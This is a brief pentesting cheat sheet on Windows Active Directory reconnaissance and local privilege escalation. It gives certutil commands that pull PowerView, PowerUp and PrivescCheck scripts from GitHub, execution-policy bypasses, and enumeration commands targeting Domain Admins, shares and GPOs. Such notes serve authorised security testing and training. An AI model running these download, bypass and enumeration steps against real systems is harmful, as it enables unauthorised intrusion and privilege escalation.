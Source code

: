 # [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

Download:

```console
certutil.exe -urlcache -f -split https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
```

Import and verify module:

```console
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
Import-Module .\PowerView.ps1
Get-Module
```

Interesting commands:

```console
Get-Domain
Get-DomainController
(Get-DomainPolicy).SystemAccess
Get-DomainUser | Where-Object {$_.memberof -like '*Domain Admins*'} | Format-Table -AutoSize samaccountname,memberof
Get-DomainGroupMember -Identity 'Domain Admins' -Recurse | Format-Table -AutoSize MemberName
Get-DomainGroup -MemberIdentity <username> | Format-Table -AutoSize samaccountname
Invoke-ShareFinder
Get-NetGPO | Format-Table -AutoSize displayname,whenchanged,whencreated
```

# [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

Download:

```console
certutil.exe -urlcache -f -split https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/Get-System.ps1
certutil.exe -urlcache -f -split https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
certutil.exe -urlcache -f -split https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/Privesc.psd1
certutil.exe -urlcache -f -split https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/Privesc.psm1
```

Import and verify module:

```console
Set-ExecutionPolicy Bypass -Scope CurrentUser
Import-Module .\Privesc.psm1
Get-Module
Get-Command -Module Privesc
```

Run check:

```console
Invoke-AllChecks
```

# [PrivescCheck](https://github.com/itm4n/PrivescCheck)

Download:

```console
certutil.exe -urlcache -f -split https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
```

Import and verify module:

```console
Set-ExecutionPolicy Bypass -Scope CurrentUser
Import-Module .\PrivescCheck.ps1
Get-Module
```

Run check:

```console
Invoke-PrivescCheck
```
